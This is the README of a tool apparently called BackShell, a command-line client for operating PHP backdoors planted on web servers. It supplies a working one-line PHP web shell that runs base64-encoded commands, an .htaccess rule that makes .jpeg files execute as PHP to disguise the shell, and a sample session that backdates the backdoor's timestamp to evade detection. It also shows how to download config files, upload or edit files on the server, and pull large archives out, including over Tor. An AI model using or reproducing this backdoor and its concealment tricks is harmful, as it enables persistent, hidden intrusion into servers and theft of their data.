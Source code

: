 # BackShell by s3rgeym

[![Downloads](https://pepy.tech/badge/backshell)](https://pepy.tech/project/backshell)
[![Downloads](https://pepy.tech/badge/backshell/month)](https://pepy.tech/project/backshell)
[![Downloads](https://pepy.tech/badge/backshell/week)](https://pepy.tech/project/backshell)

Command-line tool for backdoor exploitation.

```zsh
$ pip install backshell

$ backshell 'https://vuln.com/path/to/backdoor.php'
 ____             _     ____  _          _ _
| __ )  __ _  ___| | __/ ___|| |__   ___| | |
|  _ \ / _` |/ __| |/ /\___ \| '_ \ / _ \ | |
| |_) | (_| | (__|   <  ___) | | | |  __/ | |
|____/ \__,_|\___|_|\_\|____/|_| |_|\___|_|_|
v0.1.1 by s3rgeym

Type 'help' for more information.
backshell> touch -a -m -t 201705030100.12 backdoor.php

backshell> ls -lah
total 36K
drwxr-xr-x  5 <vanished> <vanished> 4.0K Aug  4 00:26 .
drwxr-xr-x 18 <vanished> <vanished> 4.0K Jan 17  2018 ..
-rw-r--r--  1 <vanished> <vanished>  533 May  3  2017 .jshintrc
-rw-r--r--  1 <vanished> <vanished> 2.7K May  3  2017 Gruntfile.js
-rw-r--r--  1 <vanished> <vanished>   47 May  3  2017 backdoor.php
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 images
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 js
-rw-r--r--  1 <vanished> <vanished>  466 May  3  2017 package.json
drwxr-xr-x  2 <vanished> <vanished> 4.0K May  3  2017 resource

backshell> ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
<vanished>  786766  0.1  0.0 382984 24116 ?        Ss   00:45   0:00 lsphp
<vanished>  787446  0.0  0.0 383416 10240 ?        Ss   00:46   0:00 <vanished>
<vanished>  787447  0.0  0.0   9776  1140 ?        S    00:46   0:00 sh -c ps -aux 2>&1
<vanished>  787448  0.0  0.0  49836  1652 ?        R    00:46   0:00 ps -aux

backshell> exit
```

Backdoor example:

```php
<?php @passthru(base64_decode($_REQUEST['c']));
```

Base64 нужен для обхода `magic_quotes_gpc = On`, который до сих пор много где включен, а так же для работы с бинарными данными в Node.js и т.п.

Такой простой бекдор, конечно, быстро спалят.

`.htaccess`:

```htaccess
AddType application/x-httpd-php .jpeg
```

Теперь файлы с расширением `.jpeg` будут выполняться как php.

## Examples

```zsh
# Help
backshell> help

# Download file from server
backshell> download config.php
Saved as XXXX.config.php

# Upload file to server
backshell> upload script.php

# Edit file on server
backshell> edit index.php
```

## Ограничения

Так как каждый раз запускается новая сессия шелл, то такие команды как `cd` работают не так как ожидается:

```zsh
backshell> cd /tmp; echo $PWD
/tmp

backshell> pwd
/path/to/backdoor
```

Решения:

- При запуске backshell указывать аргумент `--cwd`;
- Использовать команду шелла `cwd`.

Так же не будут работать интерактивные команды типа `less` и др.

Ограничение на длинну команды:

```zsh
$ getconf ARG_MAX
2097152
```

Чтобы скачать файл большого размера либо каталог, упакуйте его с помощью tar, переместите его в ассеты и выкачайте архив curl/wget.

Вызов команды edit при работе через torify приводит к ошибке:

```zsh
1596550567 WARNING torsocks[373221]: [syscall] Unsupported syscall number 217. Denying the call (in tsocks_syscall() at syscall.c:567)
```

Это баг torsocks и хз когда его исправят.
